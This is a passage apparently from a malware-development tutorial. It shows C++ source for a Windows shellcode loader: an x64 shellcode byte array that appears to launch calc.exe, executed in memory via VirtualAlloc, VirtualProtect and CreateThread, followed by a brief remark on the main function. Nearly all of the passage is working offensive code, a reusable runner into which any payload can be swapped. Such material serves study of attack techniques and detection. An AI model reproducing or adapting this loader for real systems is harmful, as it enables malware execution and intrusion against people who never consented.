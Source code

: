 ```cpp
  0xac, 0x3c, 0x61, 0x7c, 0x02, 0x2c, 0x20, 0x41, 0xc1, 0xc9, 0x0d, 0x41,
  0x01, 0xc1, 0xe2, 0xed, 0x52, 0x41, 0x51, 0x48, 0x8b, 0x52, 0x20, 0x8b,
  0x42, 0x3c, 0x48, 0x01, 0xd0, 0x8b, 0x80, 0x88, 0x00, 0x00, 0x00, 0x48,
  0x85, 0xc0, 0x74, 0x67, 0x48, 0x01, 0xd0, 0x50, 0x8b, 0x48, 0x18, 0x44,
  0x8b, 0x40, 0x20, 0x49, 0x01, 0xd0, 0xe3, 0x56, 0x48, 0xff, 0xc9, 0x41,
  0x8b, 0x34, 0x88, 0x48, 0x01, 0xd6, 0x4d, 0x31, 0xc9, 0x48, 0x31, 0xc0,
  0xac, 0x41, 0xc1, 0xc9, 0x0d, 0x41, 0x01, 0xc1, 0x38, 0xe0, 0x75, 0xf1,
  0x4c, 0x03, 0x4c, 0x24, 0x08, 0x45, 0x39, 0xd1, 0x75, 0xd8, 0x58, 0x44,
  0x8b, 0x40, 0x24, 0x49, 0x01, 0xd0, 0x66, 0x41, 0x8b, 0x0c, 0x48, 0x44,
  0x8b, 0x40, 0x1c, 0x49, 0x01, 0xd0, 0x41, 0x8b, 0x04, 0x88, 0x48, 0x01,
  0xd0, 0x41, 0x58, 0x41, 0x58, 0x5e, 0x59, 0x5a, 0x41, 0x58, 0x41, 0x59,
  0x41, 0x5a, 0x48, 0x83, 0xec, 0x20, 0x41, 0x52, 0xff, 0xe0, 0x58, 0x41,
  0x59, 0x5a, 0x48, 0x8b, 0x12, 0xe9, 0x57, 0xff, 0xff, 0xff, 0x5d, 0x48,
  0xba, 0x01, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x48, 0x8d, 0x8d,
  0x01, 0x01, 0x00, 0x00, 0x41, 0xba, 0x31, 0x8b, 0x6f, 0x87, 0xff, 0xd5,
  0xbb, 0xf0, 0xb5, 0xa2, 0x56, 0x41, 0xba, 0xa6, 0x95, 0xbd, 0x9d, 0xff,
  0xd5, 0x48, 0x83, 0xc4, 0x28, 0x3c, 0x06, 0x7c, 0x0a, 0x80, 0xfb, 0xe0,
  0x75, 0x05, 0xbb, 0x47, 0x13, 0x72, 0x6f, 0x6a, 0x00, 0x59, 0x41, 0x89,
  0xda, 0xff, 0xd5, 0x63, 0x61, 0x6c, 0x63, 0x2e, 0x65, 0x78, 0x65, 0x00
};
unsigned int my_payload_len = sizeof(my_payload);

int main(void) {
  void * my_payload_mem; // memory buffer for payload
  BOOL rv;
  HANDLE th;
  DWORD oldprotect = 0;

  // Allocate a memory buffer for payload
  my_payload_mem = VirtualAlloc(0, my_payload_len, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);

  // copy payload to buffer
  RtlMoveMemory(my_payload_mem, my_payload, my_payload_len);

  // make new buffer as executable
  rv = VirtualProtect(my_payload_mem, my_payload_len, PAGE_EXECUTE_READ, &oldprotect);
  if ( rv != 0 ) {

    // run payload
    th = CreateThread(0, 0, (LPTHREAD_START_ROUTINE) my_payload_mem, 0, 0, 0);
    WaitForSingleObject(th, -1);
  }
  return 0;
}

```

So we have just one function `main(void)` function:

![main function](/assets/images/2/2021-09-04_11-40.png){:class="img-responsive"}
